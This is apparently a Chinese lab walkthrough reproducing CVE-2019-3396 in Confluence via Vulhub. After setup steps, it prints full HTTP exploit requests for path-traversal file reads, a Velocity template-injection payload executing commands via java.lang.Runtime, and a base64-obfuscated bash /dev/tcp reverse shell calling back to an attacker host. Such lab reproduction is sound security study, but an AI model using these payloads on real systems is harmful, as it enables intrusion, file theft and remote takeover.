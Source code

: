 # Atlassian Confluence 路径穿越与命令执行漏洞 CVE-2019-3396

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

参考资料：

- https://paper.seebug.org/884/
- https://jira.atlassian.com/browse/CONFSERVER-57974

## 环境搭建

Vulhub执行如下命令启动一个Confluence Server 6.10.2：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`会进入安装引导，选择“Trial installation”，之后会要求填写license key。点击“Get an evaluation license”，去Atlassian官方申请一个Confluence Server的测试证书：

![image-20220221212552097](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212125230.png)

然后点击Next安装即可。这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。

如果提示填写cluster node，路径填写`/home/confluence`即可：

![image-20220221212055528](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212120637.png)

后续可能要求你填写数据库账号密码，选择postgres数据库，地址为`db`，账号密码均为`postgres`：

![image-20220221212256534](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212122657.png)

配置系统管理员账户 Configure User Management / Configure System Administrator Account

![image-20220221220412118](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212204338.png)

安装完成之后，新建一个话题，然后，选择其他宏→小工具连接器

![image-20220221221038964](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212210096.png)

## 漏洞复现

### 读取文件web.xml

点击插入，抓包并修改，发送如下数据包，即可读取文件`web.xml`：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.174.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.174.128:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}
```

![image-20220221220956744](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212209903.png)

### 读取/etc/passwd

6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。

![image-20220221222031476](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212220650.png)

### 远程代码执行

该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令

修改请求中_template参数的值，可以包含远程文件，支持https协议，http目前无法利用

使用python3开启一个简单的ftp服务器

```
python3 -m pip install pyftpdlib
python3 -m pyftpdlib -p 8888
```

在/home/kali目录下添加confluence.vm文件，内容为

```
#set ($exp="exp")
#set ($a=$exp.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($command))
#set ($input=$exp.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $exp.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($exp.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\\A"))
#if($scan.hasNext())
    $scan.next()
#end
```

修改_template参数的值为ftp://localhost:8888/confluence.vm并在其后加入command值，设置为id

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.174.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.174.128:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"http://192.168.174.128:8888/confluence.vm","command":"id"}}}
```

发送后成功执行命令

![image-20220221223857118](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212238258.png)

### 反弹shell

使用base64编码来绕过java的机制

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}
```

发送数据包，将command值换为base64的payload

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.174.128:8090
Content-Length: 308
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.174.128:8090
Referer: http://192.168.174.128:8090/pages/createpage.action?useDraft=true&spaceKey=TEST&draftId=98362&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"ftp://192.168.174.128:8888/confluence.vm","command":"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"}}}
```

发送后成功反弹shell

![image-20220221224340304](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212243371.png)

